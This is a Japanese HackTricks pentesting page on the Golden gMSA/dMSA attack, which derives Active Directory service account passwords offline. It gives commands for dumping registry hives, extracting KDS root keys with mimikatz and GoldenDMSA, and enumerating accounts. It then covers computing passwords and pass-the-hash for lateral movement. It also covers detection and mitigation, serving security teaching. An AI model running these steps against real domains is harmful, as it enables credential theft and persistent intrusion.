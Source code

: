 # Golden gMSA/dMSA攻撃（管理サービスアカウントパスワードのオフライン導出）

{{#include ../../banners/hacktricks-training.md}}

## 概要

Windows Managed Service Accounts (MSA) は、パスワードを手動で管理することなくサービスを実行するために設計された特別なプリンシパルです。
主に2つのバリエーションがあります：

1. **gMSA** – グループ管理サービスアカウント – `msDS-GroupMSAMembership` 属性で承認された複数のホストで使用できます。
2. **dMSA** – 委任管理サービスアカウント – gMSAの（プレビュー）後継で、同じ暗号技術に依存しながら、より細かい委任シナリオを可能にします。

両方のバリエーションにおいて、**パスワードは**通常のNTハッシュのように各ドメインコントローラー（DC）に**保存されません**。代わりに、各DCは以下から現在のパスワードを**導出**できます：

* フォレスト全体の**KDSルートキー**（`KRBTGT\KDS`） – ランダムに生成されたGUID名の秘密で、`CN=Master Root Keys,CN=Group Key Distribution Service, CN=Services, CN=Configuration, …` コンテナの下にあるすべてのDCに複製されます。
* 対象アカウントの**SID**。
* `msDS-ManagedPasswordId` 属性に見つかるアカウントごとの**ManagedPasswordID**（GUID）。

導出は次のようになります：`AES256_HMAC( KDSRootKey , SID || ManagedPasswordID )` → 最終的に**base64エンコード**され、`msDS-ManagedPassword` 属性に保存される240バイトのブロブ。
通常のパスワード使用中はKerberosトラフィックやドメインの相互作用は必要なく、メンバーホストは3つの入力を知っている限り、ローカルでパスワードを導出します。

## Golden gMSA / Golden dMSA攻撃

攻撃者がすべての3つの入力を**オフライン**で取得できれば、**フォレスト内の任意のgMSA/dMSAの**ために**有効な現在および将来のパスワード**を計算でき、再度DCに触れることなく、以下を回避できます：

* LDAP読み取り監査
* パスワード変更間隔（事前に計算できます）

これはサービスアカウントの*ゴールデンチケット*に類似しています。

### 前提条件

1. **1つのDC**（またはエンタープライズ管理者）の**フォレストレベルの侵害**、またはフォレスト内のDCの1つへの`SYSTEM`アクセス。
2. サービスアカウントを列挙する能力（LDAP読み取り / RIDブルートフォース）。
3. [`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) または同等のコードを実行するための.NET ≥ 4.7.2 x64ワークステーション。

### Golden gMSA / dMSA
##### フェーズ1 – KDSルートキーの抽出

任意のDCからダンプ（ボリュームシャドウコピー / 生のSAM+SECURITYハイブまたはリモートシークレット）：
```cmd
reg save HKLM\SECURITY security.hive
reg save HKLM\SYSTEM  system.hive

# With mimikatz on the DC / offline
mimikatz # lsadump::secrets
mimikatz # lsadump::trust /patch   # shows KDS root keys too

# With GoldendMSA
GoldendMSA.exe kds --domain <domain name>   # query KDS root keys from a DC in the forest
GoldendMSA.exe kds

# With GoldenGMSA
GoldenGMSA.exe kdsinfo
```
`RootKey`（GUID名）とラベル付けされたbase64文字列は、後のステップで必要です。

##### フェーズ2 – gMSA / dMSAオブジェクトの列挙

少なくとも`sAMAccountName`、`objectSid`、および`msDS-ManagedPasswordId`を取得します：
```powershell
# Authenticated or anonymous depending on ACLs
Get-ADServiceAccount -Filter * -Properties msDS-ManagedPasswordId | \
Select sAMAccountName,objectSid,msDS-ManagedPasswordId

GoldenGMSA.exe gmsainfo
```
[`GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) はヘルパーモードを実装しています：
```powershell
# LDAP enumeration (kerberos / simple bind)
GoldendMSA.exe info -d example.local -m ldap

# RID brute force if anonymous binds are blocked
GoldendMSA.exe info -d example.local -m brute -r 5000 -u jdoe -p P@ssw0rd
```
##### フェーズ 3 – ManagedPasswordID を推測 / 発見する (欠落している場合)

一部のデプロイメントでは、`msDS-ManagedPasswordId` を ACL 保護された読み取りから *除去* します。  
GUID は 128 ビットであるため、単純なブルートフォースは実行不可能ですが、次のことが言えます：

1. 最初の **32 ビット = アカウント作成の Unix エポック時間** (分単位の解像度)。
2. 続いて 96 ビットのランダムなビット。

したがって、**アカウントごとの狭い単語リスト** (± 数時間) は現実的です。
```powershell
GoldendMSA.exe wordlist -s <SID> -d example.local -f example.local -k <KDSKeyGUID>
```
ツールは候補パスワードを計算し、それらのbase64ブロブを実際の`msDS-ManagedPassword`属性と比較します – 一致が正しいGUIDを明らかにします。

##### フェーズ 4 – オフラインパスワード計算と変換

ManagedPasswordIDが知られると、有効なパスワードは1コマンドの距離にあります：
```powershell
# derive base64 password
GoldendMSA.exe compute -s <SID> -k <KDSRootKey> -d example.local -m <ManagedPasswordID> -i <KDSRootKey ID>
GoldenGMSA.exe compute --sid <SID> --kdskey <KDSRootKey> --pwdid <ManagedPasswordID>
```
結果として得られるハッシュは、**mimikatz**（`sekurlsa::pth`）や**Rubeus**を使用してKerberosの悪用に注入でき、ステルスな**横移動**と**持続性**を可能にします。

## 検出と緩和

* **DCバックアップおよびレジストリハイブの読み取り**機能をTier-0管理者に制限します。
* DCでの**ディレクトリサービス復元モード（DSRM）**または**ボリュームシャドウコピー**の作成を監視します。
* `CN=Master Root Keys,…`およびサービスアカウントの`userAccountControl`フラグの読み取り/変更を監査します。
* 異常な**base64パスワードの書き込み**や、ホスト間での突然のサービスパスワードの再利用を検出します。
* Tier-0の隔離が不可能な場合、高特権gMSAを**クラシックサービスアカウント**に変換し、定期的なランダムローテーションを検討します。

## ツール

* [`Semperis/GoldenDMSA`](https://github.com/Semperis/GoldenDMSA) – このページで使用される参照実装。
* [`Semperis/GoldenGMSA`](https://github.com/Semperis/GoldenGMSA/) – このページで使用される参照実装。
* [`mimikatz`](https://github.com/gentilkiwi/mimikatz) – `lsadump::secrets`、`sekurlsa::pth`、`kerberos::ptt`。
* [`Rubeus`](https://github.com/GhostPack/Rubeus) – 派生AESキーを使用したパス・ザ・チケット。

## 参考文献

- [Golden dMSA – 委任された管理サービスアカウントの認証バイパス](https://www.semperis.com/blog/golden-dmsa-what-is-dmsa-authentication-bypass/)
- [gMSA Active Directory攻撃アカウント](https://www.semperis.com/blog/golden-gmsa-attack/)
- [Semperis/GoldenDMSA GitHubリポジトリ](https://github.com/Semperis/GoldenDMSA)
- [Improsec – Golden gMSA信頼攻撃](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-5-golden-gmsa-trust-attack-from-child-to-parent)

{{#include ../../banners/hacktricks-training.md}}
